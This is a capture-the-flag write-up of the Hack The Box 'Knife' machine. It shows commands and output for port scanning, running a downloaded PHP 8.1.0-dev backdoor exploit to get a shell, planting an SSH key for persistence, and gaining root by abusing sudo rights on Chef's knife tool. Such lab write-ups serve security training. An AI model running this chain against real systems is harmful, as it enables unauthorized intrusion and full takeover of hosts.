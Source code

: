 ## ----------->> Knife <<-------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.242 -p-
-----    

    Nmap scan report for 10.10.10.242
    Host is up (0.31s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title:  Emergent Medical Idea
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Nvigating to website http://10.10.10.242/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Knife/1.png)

// Tried some directories searchs(gobuster, dirsearch, feroxbuster) but didnt get much...
// So i tried other approach let see the head of request

    $ curl -i http://10.10.10.242/
-----

    HTTP/1.1 200 OK
    Date: Wed, 04 Aug 2021 08:37:46 GMT
    Server: Apache/2.4.41 (Ubuntu)
    X-Powered-By: PHP/8.1.0-dev
    Vary: Accept-Encoding
    Transfer-Encoding: chunked
    Content-Type: text/html; charset=UTF-8
    
// Notice: PHP/8.1.0-dev 

// Searching in ExploitDB result me interesting python script for RCE (Remote Code Execution)

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Knife/2.png)
    
// Lets download that script and run him

    $ wget https://www.exploit-db.com/download/49933
----

    $ python3 49933
    Enter the full host url:
    http://10.10.10.242/

    Interactive shell is opened on http://10.10.10.242/ 
    Can't acces tty; job crontol turned off.
    $ id
    uid=1000(james) gid=1000(james) groups=1000(james)

// We got a shell !!! and the flag !!!

    $ cat /home/james/user.txt
    62fb412........................


// since we got SSH service open and a shell Lets try import our pub key to authorized_key of james 

// First generate a ssh key 

    $ ssh-keygen
    
    $ ls
    id_rsa  id_rsa.pub
    
// Copy the public key (id_rsa.pub)

// Now, on targeted host make file 'authorized_keys' (if there isnt)

    $ touch /home/james/.ssh/authorized_keys
    
// and import the key to 'authorized_keys'

    echo "ssh-rsa AAAAB3NzaC1yc......4mb5RwC/b8uyZRc= kali@kali" >> /home/james/.ssh/authorized_keys
    
// Now we can SSH to host with user james

    $ ssh -i id_rsa james@10.10.10.242
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

    james@knife:~$ 

### -------Privilleges Escalation-------

// Lets check james 'sudo' permissions

    james@knife:~$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife
        
// We can see that james can run 'knife' with 'sudo'(root) permissions

// Lets check what its 'knife'

    james@knife:~$ knife
    ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

    Usage: knife sub-command (options)
        -s, --server-url URL             Chef Infra Server URL.
            --chef-zero-host HOST        Host to start Chef Infra Zero on.
            --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
        -k, --key KEY                    Chef Infra Server API client key.
            --[no-]color                 Use colored output, defaults to enabled.
        -c, --config CONFIG              The configuration file to use.
            --config-option OPTION=VALUE Override a single configuration option.
            --defaults                   Accept default values for all questions.
        -d, --disable-editing            Do not open EDITOR, just accept the data as is.
        -e, --editor EDITOR              Set the editor to use for interactive commands.
        -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
            --[no-]fips                  Enable FIPS mode.
        -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
            --[no-]listen                Whether a local mode (-z) server binds to a port.
        -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.
        -u, --user USER                  Chef Infra Server API client username.
            --print-after                Show the data after a destructive operation.
            --profile PROFILE            The credentials profile to select.
        -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
        -v, --version                    Show Chef Infra Client version.
        -y, --yes                        Say yes to all prompts for confirmation.
        -h, --help                       Show this help message.

        ........
        
        ** USER COMMANDS **
        knife user create USERNAME DISPLAY_NAME FIRST_NAME LAST_NAME EMAIL PASSWORD (options)
        knife user delete USER (options)
        knife user dissociate USERNAMES
        knife user edit USER (options)
        knife user invite add USERNAMES
        knife user invite list
        knife user invite rescind [USERNAMES] (options)
        knife user key create USER (options)
        knife user key delete USER KEYNAME (options)
        knife user key edit USER KEYNAME (options)
        knife user key list USER (options)
        knife user key show USER KEYNAME (options)
        knife user list (options)
        knife user reregister USER (options)
        knife user show USER (options)

        ........
        
        ** YAML COMMANDS **
        knife yaml convert YAML_FILENAME [RUBY_FILENAME]
        
        ........
        
// we can see at the description that 'knife' uses 'ruby' sources scripts([RUBY_FILENAME]) and we can run a configuration file (-c, --config CONFIG              The configuration file to use.)

// First lets make configuration file 

    james@knife:~$ cat config.rb 
    exec "/bin/bash -i"

// lets run this file with 'knife' USER command 'user list' 

    james@knife:~$ sudo knife user list -c config.rb 
    root@knife:/home/james# id
    uid=0(root) gid=0(root) groups=0(root)
    root@knife:/home/james# cat /root/root.txt
    059c752d...........................

// We got root flag !!!

// Other way to get root flag its to use 'ruby's' 'exec'

    james@knife:~$ sudo knife exec --exec "exec '/bin/sh -i'"
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    059c752d........................

